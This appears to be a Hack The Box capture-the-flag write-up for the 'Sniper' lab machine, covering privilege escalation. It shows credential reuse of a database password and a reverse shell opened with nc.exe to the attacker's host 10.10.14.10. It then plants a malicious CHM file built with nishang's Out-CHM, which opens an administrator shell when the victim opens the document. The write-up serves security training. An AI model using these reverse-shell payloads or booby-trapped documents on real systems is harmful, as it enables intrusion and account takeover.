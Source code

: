 # 15 - PrivEsc

```powershell
PS C:\inetpub\wwwroot\user> type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

With this password we should try password reuse. People love to use the same password.


# Chris

```powershell
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ cme smb 10.10.10.151 -u chris -p '36mEAhz/B8xQ~2VM'
SMB         10.10.10.151    445    SNIPER           [*] Windows 10.0 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\chris:36mEAhz/B8xQ~2VM 
```

Credentials:

* chris:36mEAhz/B8xQ~2VM


Unlike other windows boxes, Sniper does not reveal WinRM (5985) to public. But we can access it locally.
```powershell
PS C:\inetpub\wwwroot\blog>$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\inetpub\wwwroot\blog>$cred = New-Object System.Management.Automation.PSCredential('sniper\chris', $pass)
PS C:\inetpub\wwwroot\blog>Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}
PS C:\inetpub\wwwroot\blog>Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {\\10.10.14.10\htb\nc.exe -e powershell 10.10.14.10 9001}
```


# Shell
```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ nc -lvp 9001
listening on [any] 9001 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49687
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Chris\Documents>
```

# c:\Docs
```powershell
PS C:\Docs> dir

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   9:31 AM            285 note.txt                                                              
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf                                             
```

# note.txt
```sql
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```


CEO is waiting for the documentation from Chris, they could be the administrator.


# Files in Chris's home directory

```powershell
PS C:\Users\Chris>gci -Recurse -File | select Fullname

FullName                                 
--------                                 
C:\Users\Chris\Desktop\user.txt          
C:\Users\Chris\Downloads\instructions.chm
C:\Users\Chris\Favorites\Bing.url        
C:\Users\Chris\Links\Desktop.lnk         
C:\Users\Chris\Links\Downloads.lnk       


```

instructions.chm is a compiled html file.

```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ file instruction.chm 
instruction.chm: MS Windows HtmlHelp Data
```


![](vx_images/2883527579021.png)


This could be the documentation the administrator is talking about. That means the format will be .chm

We can inject code in the chm file and place it in c:\Docs for administrator to open it because CEO wants it there. Once the administrator opens the file our malicious code will get executed. Luckily, `nishang` has a module Out-CHM.ps1 but it wants to run on windows.

# Commando VM
```powershell
PS C:\Tools\nishang> . .\Client\Out-CHM.ps1
PS C:\Tools\nishang> Out-CHM -Payload "\windows\temp\nc.exe -e powershell 10.10.14.10 9002"
PS C:\Tools\nishang> cp doc.chm \\192.168.56.103\htb\doc.chm
```

Please read Out-CHM.ps1, it also needs htmlhelp.exe.

# Target
```powershell
PS C:\Docs> cp \\10.10.14.10\htb\nc.exe \windows\temp\nc.exe
PS C:\Docs> cp \\10.10.14.10\htb\doc.chm .
```

In just a few seconds we should get a shell.


# Administrator shell
```powershell
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper/share]
└──╼ $ rlwrap nc -lvp 9002
listening on [any] 9002 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49703
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
sniper\administrator

```